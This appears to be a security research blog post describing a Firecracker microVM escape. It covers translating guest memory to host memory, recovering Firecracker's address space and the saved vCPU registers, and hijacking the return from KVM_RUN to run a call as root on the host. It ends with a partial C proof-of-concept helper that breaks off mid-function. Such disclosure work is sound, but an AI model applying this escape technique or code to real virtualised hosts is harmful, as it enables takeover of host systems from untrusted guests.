






# Firecracker VM Escape: PwnEscape Part 2

PWN Research, Paulos Yibelo · November 4, 2026

Firecracker is supposed to keep untrusted code inside a microVM. We escaped it and achieved code execution as root on the host.

We found how it saved registers, changed where it would resume, and made it execute a call of our choosing when it returned from KVM. The guest then restored the temporary stack changes. Firecracker kept running, and the VM remained accessible over SSH.

[PwnEscape Part 1](https://pwn.ai/blog/pwnescape) introduced the host memory primitive behind this work. Here we follow the next part of the chain: using that access to find Firecracker in memory and take over a live thread from inside the guest. This is a continuation to show CVE-2026-99999 on a Firecracker setup.

## 00 / Choosing where to take control

A Firecracker microVM has a process on the host that manages it. Each virtual CPU, or vCPU, has a thread in that process. The thread enters KVM to run the guest and returns to Firecracker when an event needs handling in userspace. Firecracker documents this arrangement in its [architecture overview](https://github.com/firecracker-microvm/firecracker/blob/main/docs/design.md#internal-architecture).



The call that runs the virtual CPU looks like this:

```c
ioctl(vcpu_fd, KVM_RUN, 0);
```

While the thread is in that system call, the host kernel holds its saved userspace registers in a structure called `pt_regs`. These registers describe the Firecracker thread: its instruction pointer says where execution should resume, and its stack pointer says which userspace stack it should use.

That made the return from `KVM_RUN` an attractive target. If we could locate and modify the saved frame, we could choose the code Firecracker executed when the thread returned to userspace. A guest operation that caused such a return would provide the trigger.

We already had access to selected host physical memory through a guest mapping. To use it, we needed to identify the Firecracker process, find code we could call in that process, and locate the register frame belonging to its active vCPU thread. The starting point was a page of memory we controlled inside the guest.



*Figure 1. The guest identifies its Firecracker process, finds the saved registers for a vCPU thread, and redirects the thread when it returns from KVM.*

## 01 / Finding our guest page on the host

The guest and host use different physical address spaces. A page has a guest physical address, or GPA, inside the VM and a host physical address, or HPA, in the machine backing it. On the target, Extended Page Tables (EPT) provide the translation between them.

We placed a recognizable byte pattern, a nonce, in a guest page. The first resolver took that page's known GPA and its contents as inputs. Together, they gave us an address to translate and a way to check whether the translation reached our page.

The resolver searched the host physical ranges covered by the memory primitive for candidate EPT roots. An EPT root is the starting point of the translation tables. For each candidate, the resolver followed the entries selected by the guest address until it reached a physical page, then checked that page for the nonce.

The snippets below are explanatory pseudocode with descriptive helper names. They show the data passed between stages and the checks used to connect them.

```text
for root in candidate_ept_roots:
    page_hpa = walk_ept(root, guest_gpa)
    if page_hpa is invalid:
        continue

    contents = read_host(page_hpa, length(nonce))
    if contents == nonce:
        candidates.append((root, page_hpa))
```

The nonce check connected a proposed translation to memory we controlled. The broader search produced two candidates; validation of the nested page tables reduced them to one EPT root. Walking that root gave us the host physical address of our guest page.

We called this result `guest_page_hpa` and passed it to the next resolver. We now had a recognizable object in host memory. The next task was finding the host process that mapped it.

## 02 / Finding the Firecracker process

Firecracker maps memory used by the guest into its own address space. That mapping gave us a way to work backward from the guest page to the process.

Host processes use page tables to translate their virtual addresses into physical memory. The top level is called the page global directory, or PGD. Recovering the appropriate PGD would let us translate addresses inside Firecracker and read its code and stack through the memory primitive.

Our reverse mapper searched the native host page tables for a mapping of `guest_page_hpa`. A normal page table walk starts with a virtual address and produces a physical address. Here, we looked for a mapping to a physical page we already knew, then recovered the virtual address and page table root associated with it.

The check runs in both directions:

```text
for mapping in reverse_map_host_page_tables(guest_page_hpa):
    pgd = mapping.root
    guest_page_va = mapping.virtual_address

    resolved_hpa = walk_host_page_tables(pgd, guest_page_va)
    if resolved_hpa != guest_page_hpa:
        continue

    if read_host(resolved_hpa, length(nonce)) != nonce:
        continue

    process_candidates.append((pgd, guest_page_va))
```

This connected the host process's virtual mapping to the physical page found through EPT. The reverse mapper returned one validated address space. We retained its root as `host_pgd` and used it to inspect the process.

The next resolver looked for the Firecracker executable in those mappings. It identified an ELF image and checked a known byte sequence in Firecracker's `write(2)` wrapper. That connected the recovered address space to the binary we were targeting.

ASLR changes where an executable is loaded. The difference between an address in the ELF image and its corresponding runtime address is the load bias. Once the mapper had identified the image, it could recover that bias and use it to locate the code required by the exploit:

```text
runtime_code_address = load_bias + code_address_in_elf
```

The mapper returned the load bias as `firecracker_base`. With that value and `host_pgd`, we could locate code in the running process, translate its virtual address to host physical memory, and compare the bytes there with the expected binary.

We checked three locations: the `write(2)` wrapper that would produce our proof, the continuation after the KVM ioctl, and a short `xor eax,eax; ret` sequence needed to return cleanly. Their purposes become relevant when we construct the return path below.

At this point, the guest could inspect the Firecracker image and its private mappings. We still needed the saved registers of the thread currently running our VM.



*Figure 2. The nonce identifies the guest page in host memory. Its mapping leads to a host page table root, which lets the next resolver locate and validate the Firecracker image.*

## 03 / Locating the live vCPU frame

The frame finder took `host_pgd` and `firecracker_base` from the preceding stages. It used them to recognize the host thread's saved state.

The most useful clue was the return address. A vCPU thread in `KVM_RUN` should have a saved instruction pointer at the corresponding ioctl continuation in Firecracker. We could calculate that address from the validated binary and its load bias.

We then searched host memory for a `pt_regs` frame consistent with that call. An address match alone would also pick up stale stack contents, so the candidate had to satisfy several related checks:

The stack check tied the frame to the same address space we had recovered from the guest page. The instruction and caller addresses tied it to the Firecracker image. The syscall fields tied it to the operation running the vCPU.

The search left one candidate. Its location was stored as `frame_hpa`, the host physical address of the saved register frame. We passed it, the PGD, and the load bias to the final helper.

Before changing memory, the helper repeated the code signature, frame, and stack checks. This ensured that the active stage used the same process state the resolvers had identified. The subsequent execution and recovery checks would establish that the selected frame was live.



*Figure 3. The candidate register frame must agree with the KVM ioctl, the recovered process page tables, and the validated Firecracker code.*

## 04 / Redirecting the return from KVM

We chose a simple payload: make the Firecracker process write a recognizable string to its own stderr. This would give the host runner an observable result from the process we had taken over.

The string was `N8V23M2\n`, seven characters followed by a newline. It occupies eight bytes and fits in one stack word. The call we wanted Firecracker to execute was:

```c
write(2, "N8V23M2\n", 8);
```

Here `2` is Firecracker's stderr file descriptor. The buffer pointer must refer to the string in Firecracker's address space, so we stored the string on its private userspace stack.

We saved three stack words before modifying them. One held the string; the other two held the return addresses for the temporary call sequence. We then changed the saved register frame to supply the wrapper address, its arguments, and a stack pointer for that sequence:

```text
RIP  = address of Firecracker's write wrapper
RDI  = 2
RSI  = virtual address of the marker on Firecracker's stack
RDX  = 8
RSP  = virtual address of the temporary return sequence
```

Returning from `write` also needed care. A successful write of eight bytes returns `8`, while a successful [`KVM_RUN` call returns zero](https://docs.kernel.org/virt/kvm/api.html#kvm-run). We placed the address of `xor eax,eax; ret` first in the return sequence. It clears the return value before the second address brings execution back to Firecracker's original ioctl continuation.

The resulting control flow was:

```text
KVM_RUN returns to userspace
    -> Firecracker's write wrapper emits the marker
    -> xor eax,eax; ret sets the return value to zero
    -> execution resumes at the original ioctl continuation
```

With the stack and saved registers prepared, the guest wrote one byte to its serial port. That operation caused the vCPU thread to return from `KVM_RUN`. The kernel restored the modified registers, and Firecracker entered the `write` wrapper with our arguments.

The wrapper emitted the marker, the return sequence cleared `eax`, and the thread rejoined its original execution path. After control returned to the guest, the helper restored all three stack words.



*Figure 4. The saved register frame enters the write wrapper. Two return addresses lead through the return-value adjustment and back into the original Firecracker path.*

## 05 / Checking execution and recovery

The host runner captured Firecracker's stderr separately from the guest. The complete output was:

```text
N8V23M2
```

The capture contained exactly eight bytes, including the final newline. Firecracker was still running, guest SSH was responsive, and the helper had restored the three temporary stack words.

We checked recovery with a fresh pass that made no memory changes. It was given the same frame address and repeated the register, code, and stack checks after the trigger. The checks passed, and it found no stale marker in the temporary stack location.

These observations answered three different questions. The guest log recorded the trigger and restoration. The host capture showed that Firecracker executed the selected operation. The final validation checked the state after execution.



*Figure 5. The guest log, Firecracker stderr capture, and final validation record the trigger, host execution, and restored state.*

## 06 / Root execution on the host

By the time the marker appeared, the guest had selected the host thread's instruction pointer, function arguments, stack data, and return path. Firecracker executed the call using its own privileges.

The target was Firecracker v1.16.1 on x86-64, with host kernel `7.0.0-1011-aws` and guest kernel `6.18.44+`. We launched Firecracker directly as root under `systemd-run` and pinned it with `taskset`. Consequently, the controlled call executed as root on the host.

The existing write wrapper gave us a compact proof of that control. Extending it to other calls would require choosing code and arguments compatible with the process's mappings and syscall policy.

The configuration used here had no jailer. Firecracker's [production containment](https://github.com/firecracker-microvm/firecracker/blob/main/docs/design.md#sandboxing) includes dropping privileges and restricting the process through namespaces and seccomp. A deployment using those controls requires a separate assessment of the privileges and resources available after compromising its VMM.

The address discovery is what lets the exploit follow the running instance. The EPT resolver connects a guest page to host memory; the reverse mapper recovers the host address space; the image mapper locates Firecracker under ASLR; and the frame finder identifies the vCPU's saved state. Adapting the final stage to another build requires validating that binary's code signatures and return path.

The guest had used access to host memory to take over the thread running the VM itself. A serial write supplied the trigger, and the next userspace operation belonged to us.

## Captured resolver values and artifacts

The following values come from the preserved execution record. The methods above use symbolic names so that the role of each value is clear; this table connects those names to the recorded addresses.

The records use run ID `eventpath-v23-0907self02` and boot ID `2b3cd5ac-2311-427f-a50a-6a79ecb8daa7`. These identifiers connect the resolver records, host capture, and validation after restoration.

The earlier memory provider also received host-selected task and canary page frame numbers as independent validation overlays after constructing the memory aperture. Those addresses were not consumed by the EPT resolver, reverse mapper, Firecracker mapper, frame finder, or final marker helper.

The release bundle contains the final helper source, JSONL resolver records, host capture, recovery manifest, four preserved read-only resolver binaries with provenance, and SHA-256 manifests. The final helper accepts the PGD, load bias, and frame HPA produced by the resolvers. Its checks cover the run identifier, address ranges, code signatures, saved registers, and stack geometry; its dry-run mode performs validation without writing memory.

## Proof of Concept

```C
#define _GNU_SOURCE

#include <errno.h>
#include <fcntl.h>
#include <inttypes.h>
#include <signal.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>

#define PAGE_SIZE_U64 UINT64_C(4096)
#define HUGE_2M_U64 (UINT64_C(1) << 21)
#define HUGE_1G_U64 (UINT64_C(1) << 30)
#define L4_ALIAS_BASE (UINT64_C(1) << 39)
#define FIRST_HPA_GIB UINT64_C(4)
#define LAST_HPA_GIB UINT64_C(192)
#define MARKER_CONFLICT_HPA_GIB UINT64_C(16)
#define MARKER_REMAP_ENTRY UINT64_C(193)
#define ADDRESS_MASK_4K UINT64_C(0x000ffffffffff000)
#define ADDRESS_MASK_2M UINT64_C(0x000fffffffe00000)
#define ADDRESS_MASK_1G UINT64_C(0x000fffffc0000000)
#define PTE_PRESENT UINT64_C(0x1)
#define PTE_USER UINT64_C(0x4)
#define PTE_LARGE UINT64_C(0x80)
#define PTE_PROTNONE UINT64_C(0x100)
#define IOCTL_RETURN_VADDR UINT64_C(0x26aad2)
#define WRITE_VADDR UINT64_C(0x27071e)
#define ZERO_EAX_RET_VADDR UINT64_C(0x1b274)
#define TEXT_FIRST_VADDR UINT64_C(0x12000)
#define TEXT_LAST_VADDR UINT64_C(0x276000)
#define KVM_RUN_REQUEST UINT64_C(0xae80)
#define SYS_IOCTL UINT64_C(16)
#define SYSCALL_AX_IN_PROGRESS UINT64_C(0xffffffffffffffda)
#define USER_CS UINT64_C(0x33)
#define USER_SS UINT64_C(0x2b)
#define PTREG_WORDS UINT64_C(21)
#define MARKER_LENGTH UINT64_C(8)
#define MARKER_STACK_OFFSET UINT64_C(0x30)
#define ROP_STACK_OFFSET UINT64_C(16)
#define SERIAL_PORT UINT64_C(0x3f8)

static const uint8_t marker_bytes[MARKER_LENGTH] = {
    'N', '8', 'V', '2', '3', 'M', '2', '\n'
};

static const uint8_t write_prefix[] = {
    0x48, 0x83, 0xec, 0x10, 0x49, 0x89, 0xf2, 0x48,
    0x89, 0xd1, 0x48, 0x63, 0xf7, 0x6a, 0x00
};

static const uint8_t ioctl_continuation[] = {
    0x48, 0x63, 0xf8, 0xe8, 0xc3, 0xe1, 0xff,
    0xff, 0x48, 0x83, 0xc4, 0x58, 0xc3
};

static const uint8_t zero_eax_ret[] = {0x31, 0xc0, 0xc3};

static void fault_handler(int signal_number)
{
    _exit(128 + signal_number);
}

static int valid_run_id(const char *value)
{
    size_t length = strlen(value);
    if (length < 14 || length > 64 ||
        strncmp(value, "eventpath-v23-", 14) != 0) {
        return 0;
    }
    for (size_t index = 0; index < length; index++) {
        unsigned char byte = (unsigned char)value[index];
        if (!((byte >= 'a' && byte <= 'z') ||
              (byte >= '0' && byte <= '9') || byte == '-')) {
            return 0;
        }
    }
    return 1;
}

static uint64_t parse_address(const char *text, int page_aligned)
{
    char *end = NULL;
    uint64_t value;
    if (text == NULL || strncmp(text, "0x", 2) != 0) {
        fprintf(stderr, "hex address required\n");
        exit(64);
    }
    errno = 0;
    value = strtoull(text + 2, &end, 16);
    if (errno != 0 || end == text + 2 || *end != '\0' || value == 0 ||
        (page_aligned && (value & (PAGE_SIZE_U64 - 1)) != 0)) {
        fprintf(stderr, "invalid address\n");
        exit(64);
    }
    return value;
}

static uint64_t alias_entry_for_hpa_gib(uint64_t hpa_gib)
{
    return hpa_gib == MARKER_CONFLICT_HPA_GIB ?
           MARKER_REMAP_ENTRY : hpa_gib;
}

static uint64_t alias_gpa_for_hpa(uint64_t hpa)
{
    uint64_t hpa_gib = hpa >> 30;
    if (hpa_gib < FIRST_HPA_GIB || hpa_gib > LAST_HPA_GIB) {
        fprintf(stderr, "host physical address outside mapped window\n");
        exit(70);
    }
    return L4_ALIAS_BASE |
           (alias_entry_for_hpa_gib(hpa_gib) << 30) |
           (hpa & (HUGE_1G_U64 - 1));
}

static uint8_t *map_host_page(int descriptor, uint64_t page_hpa, int prot)
{
    uint8_t *mapping;
    if ((page_hpa & (PAGE_SIZE_U64 - 1)) != 0) {
        fprintf(stderr, "unaligned host page\n");
        exit(70);
    }
    mapping = mmap(NULL, PAGE_SIZE_U64, prot, MAP_SHARED, descriptor,
                   (off_t)alias_gpa_for_hpa(page_hpa));
    if (mapping == MAP_FAILED) {
        perror("mmap host page");
        exit(70);
    }
    return mapping;
}

static uint64_t read_u64_hpa(int descriptor, uint64_t hpa)
{
    uint8_t *mapping;
    uint64_t value;
    uint64_t page_hpa = hpa & ~(PAGE_SIZE_U64 - 1);
    uint64_t offset = hpa & (PAGE_SIZE_U64 - 1);
    if (offset > PAGE_SIZE_U64 - sizeof(value)) {
        fprintf(stderr, "cross-page host read rejected\n");
        exit(70);
    }
    mapping = map_host_page(descriptor, page_hpa, PROT_READ);
    memcpy(&value, mapping + offset, sizeof(value));
    if (munmap(mapping, PAGE_SIZE_U64) != 0) {
        perror("munmap host read");
        exit(70);
    }
    return value;
}

static int native_user_entry(uint64_t value)
{
    return (value & (PTE_PRESENT | PTE_USER)) ==
           (PTE_PRESENT | PTE_USER);
}

static int native_protnone_leaf(uint64_t value)
{
    return !(value & PTE_PRESENT) && (value & PTE_PROTNONE) &&
           !(value & PTE_LARGE);
}

static uint64_t walk_native(int descriptor, uint64_t pgd_hpa,
                            uint64_t virtual_address)
{
    const unsigned shifts[4] = {39, 30, 21, 12};
    uint64_t table = pgd_hpa;
    for (unsigned level = 0; level < 4; level++) {
        uint64_t index = (virtual_address >> shifts[level]) & UINT64_C(0x1ff);
        uint64_t entry = read_u64_hpa(
            descriptor, table + index * sizeof(uint64_t));
        if (level == 3 && native_protnone_leaf(entry)) {
            return ((~entry) & ADDRESS_MASK_4K) +
                   (virtual_address & (PAGE_SIZE_U64 - 1));
        }
        if (!native_user_entry(entry)) {
            return UINT64_MAX;
        }
        if (level == 1 && (entry & PTE_LARGE)) {
            return (entry & ADDRESS_MASK_1G) +
                   (virtual_address & (HUGE_1G_U64 - 1));
        }
        if (level == 2 && (entry & PTE_LARGE)) {
            return (entry & ADDRESS_MASK_2M) +
                   (virtual_address & (HUGE_2M_U64 - 1));
        }
        table = entry & ADDRESS_MASK_4K;
    }
    return table + (virtual_address & (PAGE_SIZE_U64 - 1));
}

static int read_process_bytes(int descriptor, uint64_t pgd_hpa,
                              uint64_t virtual_address, uint8_t *output,
                              size_t length)
{
    size_t copied = 0;
    while (copied < length) {
        uint64_t address = virtual_address + copied;
        uint64_t hpa = walk_native(descriptor, pgd_hpa, address);
        uint64_t offset;
        size_t chunk;
        uint8_t *mapping;
        if (hpa == UINT64_MAX) {
            return 0;
        }
        offset = hpa & (PAGE_SIZE_U64 - 1);
        chunk = PAGE_SIZE_U64 - offset;
        if (chunk > length - copied) {
            chunk = length - copied;
        }
        mapping = map_host_page(descriptor, hpa & ADDRESS_MASK_4K,
                                PROT_READ);
        memcpy(output + copied, mapping + offset, chunk);
        if (munmap(mapping, PAGE_SIZE_U64) != 0) {
            perror("munmap process read");
            exit(70);
        }
        copied += chunk;
    }
    return 1;
}

int main(int argc, char **argv)
{
    const char *ack = getenv("NET08_V23_PRIVATE_STACK_MARKER_ACK");
    const char *mode = getenv("NET08_V23_PRIVATE_STACK_MARKER_MODE");
    const char *run_id;
    uint64_t pgd_hpa;
    uint64_t load_bias;
    uint64_t ptregs_hpa;
    uint64_t ptregs_page_hpa;
    uint64_t ptregs_offset;
    uint64_t regs[PTREG_WORDS];
    uint64_t user_sp;
    uint64_t marker_va;
    uint64_t rop_stack_va;
    uint64_t ioctl_return_slot_va;
    uint64_t marker_hpa;
    uint64_t rop_stack_hpa;
    uint64_t ioctl_return_slot_hpa;
    uint64_t original_marker;
    uint64_t original_rop_first;
    uint64_t original_rop_second;
    uint64_t caller_return;
    uint64_t marker_word;
    uint64_t ioctl_return_va;
    uint64_t write_va;
    uint64_t zero_eax_ret_va;
    uint8_t observed[sizeof(write_prefix) > sizeof(ioctl_continuation) ?
                     sizeof(write_prefix) : sizeof(ioctl_continuation)];
    uint8_t *ptregs_page;
    uint8_t *stack_page;
    volatile uint64_t *live_regs;
    int memory_fd;
    int port_fd;
    struct sigaction action;
    ssize_t trigger_result;

    if (argc != 5 || !valid_run_id(argv[1])) {
        fprintf(stderr,
                "usage: marker eventpath-v23-* pgd-hpa load-bias ptregs-hpa\n");
        return 64;
    }
    run_id = argv[1];
    if (geteuid() != 0 || mode == NULL || ack == NULL ||
        !((strcmp(mode, "dry-run") == 0 && strcmp(ack,
             "OWNED_FIRECRACKER_PRIVATE_STACK_MARKER_READ_ONLY_DRY_RUN") == 0) ||
          (strcmp(mode, "active") == 0 && strcmp(ack,
             "OWNED_FIRECRACKER_PRIVATE_STACK_MARKER_ONLY") == 0))) {
        fprintf(stderr, "exact owned private-stack marker mode and acknowledgement required\n");
        return 64;
    }
    pgd_hpa = parse_address(argv[2], 1);
    load_bias = parse_address(argv[3], 1);
    ptregs_hpa = parse_address(argv[4], 0);
    if (pgd_hpa < FIRST_HPA_GIB * HUGE_1G_U64 ||
        pgd_hpa >= (LAST_HPA_GIB + 1) * HUGE_1G_U64 ||
        ptregs_hpa < FIRST_HPA_GIB * HUGE_1G_U64 ||
        ptregs_hpa >= (LAST_HPA_GIB + 1) * HUGE_1G_U64 ||
        load_bias >= (UINT64_C(1) << 47)) {
        fprintf(stderr, "address outside owned geometry\n");
        return 64;
    }
    ptregs_page_hpa = ptregs_hpa & ADDRESS_MASK_4K;
    ptregs_offset = ptregs_hpa & (PAGE_SIZE_U64 - 1);
    if (ptregs_offset > PAGE_SIZE_U64 - sizeof(regs)) {
        fprintf(stderr, "pt_regs crosses host page\n");
        return 64;
    }

    memset(&action, 0, sizeof(action));
    action.sa_handler = fault_handler;
